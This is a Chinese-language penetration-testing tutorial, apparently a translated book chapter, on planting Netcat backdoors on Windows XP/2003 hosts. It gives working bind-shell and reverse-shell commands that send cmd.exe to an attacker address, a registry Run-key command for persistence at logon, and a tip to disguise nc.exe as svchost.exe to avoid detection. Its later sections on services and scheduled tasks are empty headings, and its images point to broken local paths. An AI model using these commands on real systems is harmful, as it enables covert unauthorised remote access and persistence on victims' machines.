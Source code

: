 # **在 Windows XP / 2003 Server上创建Netcat后门**

​        Netcat的是一个多功能的工具，它可以执行多种TCP / IP功能。其中一个非常实用的功能，尤其是对于一个渗透测试人员，是建立从一个系统到另一个系统的shell。在本节中，我们将使用此功能来访问一台远程Windows XP系统上的后门。后门程序是一种通道，为我们提供了一个远程命令行到先前我们渗透到的系统中（受害者），使我们可以在之后的时间访问它。在本节中，我将演示多种的方式，来使用和创建后门在受害者的Windows XP主机上。



NOTE

通过远程协议，我们就拥有受害者主机的系统级访问权限( system-level access)，否则我们就要通过物理的方式访问主机，然后打开Windows的命令提示符。啊，无论是哪种方式，我们从受害者主机的命令行shell开始本节。



TIP

一旦，Netcat的后门程序被执行，它会在Windows的进程列表中显示出可执行文件的名字，所以，用netcat或者nc.exe来命名程序是不明智的。为了减少(lessen)你被一般的用户发现的几率(likelihood)，请查看系统上正在运行的进程列表，然后挑选一个来欺骗(spoof)。比如说，svchost.exe有多个运行的实例(multiple instances)，因此，如果你将nc.exe重命名为svchost.exe，一般的用户是不会看出有什么异常的(a normal user will not see anything unusual)。





为了达到演示的目的，在本节中，我会继续使用netcat和nc.exe这个名字。



## **后门连接方式**

我们有两种方法，可以提供一个通道到我们的netcat后门。我们可以从攻击端发起一个直连到后门，或者，我们可以从后门反向启动一个连接到我们的攻击端上运行的监听器。



### **直连到后门**

第一种访问后门的方法是，先让netcat执行在daemon模式下，监听入站连接。当后门在监听入站连接时，我们从攻击端发起(initiate)一个连接。在我们的攻击端到受害者端的连接被建立后，远程的shell就会反弹到攻击端系统上。下图就说明了这种方法。



![img](file:///var/folders/ry/6fdjy27j1cjb3dy3b6mwtc3h0000gn/T/WizNote/7160720a-620b-4885-a219-db69a0501307/index_files/618832511.png)



要设置这样的场景，我们需要了解执行和创建后门通道的命令。在漏洞利用的系统(受害端)上运行netcat的命令是：











 

```
c:\nc.exe -d -L -p 1234 -e cmd.exe
```









| Netcat选项 | 操作                                               |
| ---------- | -------------------------------------------------- |
| -d         | 从命令行分离开(detach)，后台模式执行**(非常靠谱)** |
| -L         | 持久监听，socket关闭后再次监听                     |
| -p 1234    | 本地端口号                                         |
| -e cmd.exe | 执行程序                                           |



#### **好处**

这种连接方式的好处是，一旦命令执行，你就可以在你想要的时间连接，无论好多次。

#### **缺陷**

这种链接方式的缺陷是，一旦命令执行，所有人都可以在他们想要的时间连接。这种连接方法将留下一个开放的后门，可能允许其他人的无意的系统级访问。另外，如果有一个分组过滤设备在受害主机和攻击端之前，你也许就不能建立起到后门的连接。



**WARNING**

如果对受害主机发起一个漏洞扫描(vulnerability scan)，而我们的后门在进行监听，它就会识别到收到的Windows shell，并且报告后门程序的漏洞。Nessus漏洞扫描器会正确识别我们的后门是一个安全漏洞(Security Hole)。











 

```
Nessus Results: 结果
      Security Hole  安全漏洞
      Search-agent (1234/tcp)     代理端 (1234/tcp)
      A shell seems to be running on this port! (This is a possible backdoor)  一个shell似乎运行在这个端口 (这可能是一个后门)
```









​        我们的目标是在受害者的主机上植入一个后门，我们不希望降低系统的安全性，并提供一个后门让系统给其他人使用。



### **从后门发起连接** 

第二个，也是更加常用的访问后门的方法是，让受害者的主机发起一个连接到我们的攻击端。在这个例子中，我们的攻击端让Netcat工作在监听模式下。受害主机在预先定义的端口上，创建一个连接到攻击端，并且发送命令行shell过来。下图展示了这种连接方式。





![img](file:///var/folders/ry/6fdjy27j1cjb3dy3b6mwtc3h0000gn/T/WizNote/7160720a-620b-4885-a219-db69a0501307/index_files/141140351.png)



在受害者主机运行的命令：









 

```
nc.exe -d host 1234 -e cmd.exe
```









| Netcat选项 | 操作                            |
| ---------- | ------------------------------- |
| -d         | 后台运行模式                    |
| host       | 连接的目标IP/host               |
| 1234       | 连接的目标端口号                |
| -e cmd.exe | 运行的程序(Windows 命令行shell) |



一旦后门执行，一个Windows的shell就会被发送回攻击端的监听器上，并且是运行后门的用户的权限。



#### **好处**

使用这种方法，Netcat连接将会穿过(traverse)分组过滤设备(Windows 防火墙)，除非出站过滤配置的非常到位(in place)，并且阻止了你建立连接使用的端口。为了避免这种情况，你可以使用Egress Firewall 扫描技术来找出，出站开放的端口号，来用于建立连接。

#### **弊端**

这种连接方式的一个缺点是，我们需要等待，一个事件(任务计划程序)或者是某种用户的行为(登录到系统或重新启动计算机)来触发(trigger)我们的后门，使其发起连接到我们的攻击端的监听器。

## **后门执行方式**



现在，我们已经有两种连接后门的方式了，我们需要一个事件或者特定的用户行为(user-specific action)来触发命令。在这节，我会介绍三种方法来执行我们的后门，这将会利用(utilize)我们刚刚讲到的，从受害者的主机发起连接到攻击端的连接方式。

### **使用注册表执行后门 / Executing the Backdoor using a Registry Entry**

第一种我们用来触发后门连接的方法是，把netcat命令添加到Windows的注册表项里。当用户登录上系统时，注册表中的具体位置，就会使目标触发Netcat命令(The specific location of the registry that we want to target will trigger our Netcat command when a user logs on to the system.)。假设你有受害主机的系统级访问权限，你就可以使用以下命令，来添加一个注册表键值：











 

```
c:\reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v nc /t REG_SZ /d
“c:\windows\nc.exe -d 192.168.1.70 1234 -e cmd.exe”
```





![img](file:///var/folders/ry/6fdjy27j1cjb3dy3b6mwtc3h0000gn/T/WizNote/7160720a-620b-4885-a219-db69a0501307/index_files/135620336.png)


好了，下一次，用户登录到系统的时候，netcat后门命令就会被触发，然后发送命令行shell到我们的攻击端。如图所示，域管理员(domain administrator)登录上我们的受害系统上，并且触发了后门，然后我们就收到了Windows的命令行提示符。





![img](file:///var/folders/ry/6fdjy27j1cjb3dy3b6mwtc3h0000gn/T/WizNote/7160720a-620b-4885-a219-db69a0501307/index_files/1988600792.png)



#### **好处**

当用户登录上受害主机后，后门就会被执行，和用户的相同权限的命令行就会被反弹到攻击端。这种方法可能会给我们一个域权限的shell。



#### **弊端**

如果我们使用后门的时候，主动断开，下一次，我们就必须等待用户注销系统，并重新登录，这样才能触发后门连接。

### **使用Windows服务执行后门**

#### 

#### **好处**



#### **弊端**



### 使用Windows任务计划执行后门



#### **好处**



### 后门执行的总结